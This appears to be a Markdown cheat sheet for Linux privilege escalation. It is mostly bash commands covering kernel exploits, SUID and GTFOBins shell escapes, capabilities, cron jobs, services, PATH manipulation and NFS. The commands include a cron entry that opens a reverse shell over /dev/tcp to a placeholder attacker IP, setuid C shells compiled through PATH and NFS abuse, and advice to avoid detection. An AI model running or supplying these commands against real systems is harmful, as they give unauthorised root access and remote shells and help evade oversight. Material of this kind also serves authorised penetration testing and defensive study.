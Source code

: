 # Linux Privilege Escalation

### Overview

Privilege escalation in Linux involves techniques to gain higher-level access to a system, typically from a normal user to root access.

### Kernel Exploits

#### 1. Kernel Information

```bash
# Kernel Version
uname -a
cat /proc/version
dmesg | grep Linux

# Kernel Modules
lsmod
cat /proc/modules
```

#### 2. Exploit Search

```bash
# Search for Exploits
searchsploit <kernel_version>
exploit-db.com
github.com

# Compile and Run
gcc exploit.c -o exploit
chmod +x exploit
./exploit
```

### SUID/SGID Binaries

#### 1. Find SUID/SGID Files

```bash
# Find SUID Files
find / -type f -perm -4000 2>/dev/null
find / -type f -perm -u=s 2>/dev/null

# Find SGID Files
find / -type f -perm -2000 2>/dev/null
find / -type f -perm -g=s 2>/dev/null
```

#### 2. Common SUID/SGID Exploits

```bash
# GTFOBins
# https://gtfobins.github.io/

# Example: Using find
find / -name file -exec /bin/sh -p \;

# Example: Using vim
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

### Capabilities

#### 1. Check Capabilities

```bash
# List Capabilities
getcap -r / 2>/dev/null

# Common Capabilities
cap_setuid
cap_setgid
cap_net_bind_service
```

#### 2. Exploit Capabilities

```bash
# Example: Using cap_setuid
setcap cap_setuid+ep /path/to/binary
```

### Cron Jobs

#### 1. Check Cron Jobs

```bash
# List Cron Jobs
crontab -l
ls -la /etc/cron*
cat /etc/crontab

# Check Cron Directories
ls -la /etc/cron.d
ls -la /etc/cron.daily
ls -la /etc/cron.hourly
ls -la /etc/cron.monthly
ls -la /etc/cron.weekly
```

#### 2. Exploit Cron Jobs

```bash
# Create Reverse Shell
echo "* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > /etc/cron.d/root
```

### Services

#### 1. Check Services

```bash
# List Services
systemctl list-units --type=service
service --status-all
ps aux | grep root

# Check Service Permissions
ls -la /etc/init.d/
ls -la /etc/systemd/system/
```

#### 2. Exploit Services

```bash
# Modify Service
systemctl edit <service>
systemctl daemon-reload
systemctl restart <service>
```

### Environment Variables

#### 1. Check Environment

```bash
# List Environment Variables
env
set
printenv

# Check PATH
echo $PATH
```

#### 2. Exploit Environment

```bash
# PATH Manipulation
export PATH=/tmp:$PATH
echo 'int main(){setuid(0);system("/bin/bash");}' > /tmp/suid.c
gcc /tmp/suid.c -o /tmp/suid
chmod +s /tmp/suid
```

### NFS

#### 1. Check NFS

```bash
# List NFS Shares
showmount -e <target>
cat /etc/exports

# Mount NFS
mount -t nfs <target>:/share /mnt
```

#### 2. Exploit NFS

```bash
# Create SUID Binary
echo 'int main(){setuid(0);system("/bin/bash");}' > /mnt/suid.c
gcc /mnt/suid.c -o /mnt/suid
chmod +s /mnt/suid
```

### Tools

#### 1. Primary Tools

* LinPEAS
* LinEnum
* Linux Exploit Suggester
* GTFOBins
* Metasploit

#### 2. Additional Tools

* Pspy
* Pspy64
* Linux Smart Enumeration
* BeRoot
* Unix Privesc Check

### Best Practices

#### 1. Escalation Strategy

* Start with automated tools
* Check common vectors
* Document findings
* Test exploits safely
* Follow engagement scope

#### 2. OPSEC Considerations

* Use stealth techniques
* Avoid detection
* Monitor for alerts
* Use legitimate tools
* Follow engagement scope

### Resources

* [GTFOBins](https://gtfobins.github.io/)
* [HackTricks Linux Privesc](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)

***

_Last Updated: 2025-03-2_
